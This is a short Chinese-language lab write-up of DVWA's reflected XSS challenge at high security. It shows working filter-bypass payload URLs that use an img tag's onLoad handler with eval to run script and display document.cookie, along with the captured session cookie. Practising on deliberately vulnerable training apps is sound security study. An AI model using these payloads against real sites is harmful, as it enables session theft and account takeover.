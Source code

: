 # Reflected XSS

> The developer now believes they can disable all JavaScript by removing the pattern "<s*c*r*i*p*t".

既然封殺了 `script`，那只好找其他活路

原本是想試試看載入外部 js file 的方向，但還沒試成功 

先試試看 img tag，看有沒有辦法載入其他資源


```
http://dvwa.localtest/vulnerabilities/xss_r/?name=😎<img src='https://picsum.photos/200/300'>😎
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9871677b-37dc-4bf2-906d-5acf3792bb1a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T123807Z&X-Amz-Expires=86400&X-Amz-Signature=fd26e2a34b4032d7a1f0569b8d0745eeac7673753d10d7dcc325ea447edd3000&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

但發現用 onLoad 搭配 eval 也值得一試
```javascript
onLoad="eval(alert(1))"
```

```
http://dvwa.localtest/vulnerabilities/xss_r/?name=<img src='https://picsum.photos/200/300' onLoad="eval(alert(1))">
```

### Done

```javascript
onLoad="eval(alert(document.cookie))"
```

```
http://dvwa.localtest/vulnerabilities/xss_r/?name=<img src='https://picsum.photos/200/300' onLoad="eval(alert(document.cookie))">
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ba183bd6-0efd-4c03-b329-6c6360a202c4/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T123734Z&X-Amz-Expires=86400&X-Amz-Signature=40a12034b3bfc861ef0c14f05fbfddd389da43d4209741558163f330ad28bc8b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
PHPSESSID=9e58103f6b5dbdb3ef5f2c726e204e76; security=high
```

### impossible

如果用在 impossible 難度則是無效
